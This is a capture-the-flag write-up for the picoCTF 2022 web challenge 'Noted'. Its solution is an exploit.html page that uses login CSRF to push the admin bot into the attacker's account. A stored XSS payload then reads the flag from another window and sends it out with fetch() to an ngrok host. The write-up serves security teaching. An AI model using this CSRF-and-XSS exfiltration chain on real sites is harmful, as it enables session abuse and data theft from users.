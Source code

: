 ```yaml
---
name: Noted (2022)
event: Pico CTF 2022
category: Web
description: Writeup for Noted (Web) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Noted

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/OUizLCfp9Dw/0.jpg)](https://youtu.be/OUizLCfp9Dw?t=669 "Pico CTF 2022: Noted")

## Description

> Web Challenge I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?

## Solution

#### exploit.html

```html
<body>
    <p>flag plz</p>
    <form action="http://0.0.0.0:8080/login" method="POST" id="loginForm">
        <input type="text" name="username" value="admin" />
        <input type="password" name="password" value="admin" />
        <input type="submit" value="Submit" />
    </form>
    <script>
        // Open notes in new window (containing the flag)
        window.open("http://0.0.0.0:8080/notes", "flagWindow");
        // Force admin to login to our account
        loginForm.submit();
        // When the admin arrives to our account, our XSS note will steal the flag:
        /* <script>let flagWindow = window.open('', 'flagWindow'); let flag = flagWindow.document.documentElement.innerText; fetch('http://3297-81-103-153-174.ngrok.io?flag=' + flag);<//script> */
    </script>
</body>
```

